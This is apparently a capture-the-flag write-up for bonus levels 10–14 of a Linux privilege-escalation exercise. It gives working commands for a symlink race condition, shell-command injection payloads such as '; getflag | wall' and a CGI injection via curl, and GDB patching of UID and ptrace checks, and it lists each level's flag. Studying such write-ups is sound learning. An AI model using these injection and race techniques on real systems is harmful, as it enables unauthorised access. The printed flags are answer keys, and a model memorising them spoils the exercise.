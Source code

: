# Bonus Part

## Level 10

The binary works like this:

1. Check whether the user has the right to access the file.
2. If the user has the required rights, the file is opened and sent.

This creates a datarace between the check and the open. We can exploit this by creating a regular
file, to which we have access, start the binary and replace it with a symlink to the token.

If we're lucky, the binary will check the access rights with the first file, and then open the
token file.

```bash
touch /tmp/bonjour
./level10 /tmp/bonjour &

chrt -p -i 0 $!             # Set the priority of the binary to the lowest possible to slow it down

# Hopefully, the binary will check the access rights before this point.
rm /tmp/bonjour
ln -s ~/token /tmp/bonjour

nc -l 6969 &                # Wait for the binary to connect
```

### Flag: `feulo4b72j7edeahuete3no7c`

## Level 11

The script is a server prompting a password. This password is hashed and compared to some value.

The script uses...

```lua
io.popen("echo "..pass.." | sha1sum", "r")
```

... to hash the password. By passing the password

```txt
; getflag | wall
```

... we're executing the command:

```bash
echo ; getflag | wall | sha1sum
```

Which will display the flag.

### Flag: `fa6v5ateaw21peobuub8ipe6s`

## Level 12

The script is a CGI script, which:

1. Take a parameter `x` from the query string.
2. Uppercases it.
3. Removes everything past the first space.
4. Executes `egrep "^$x"` on the result.

By creating a file into the `/tmp` directory, we can execute arbitrary commands.

```bash
#!/bin/bash

getflag | wall
```

```bash
curl 'localhost:4646?x=$(/*/SCRIPT)'
```

Note that using only uppercase letters is mandatory, as the script will turn uppercase the value
anyway.

### Flag: `g1qKMiRpXf53AWhDaU7FEkczr`

## Level 13

The binary check the UID of the current user. If that UID is `4242`, it prints the token.

By using GDB, we can change the value of the UID to `4242` just before the check is made.

### Flag: `2A31L79asukciNyi8uppkEuSx`

## Level 14

This time, we have to exploit the `getflag` program itself.

The program is a bit more secured than the previous ones, as it checks whether it is currently
being debugged by calling `ptrace`.

Just like the other programs, however, we can simply change the return value of the function to
`0` to bypass the check.

After this, we just have to make the program think that we're `flag14` by setting the UID to
`3014`.

This _does_ mean that all flags are accessible this way.

### Flag: `7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ`
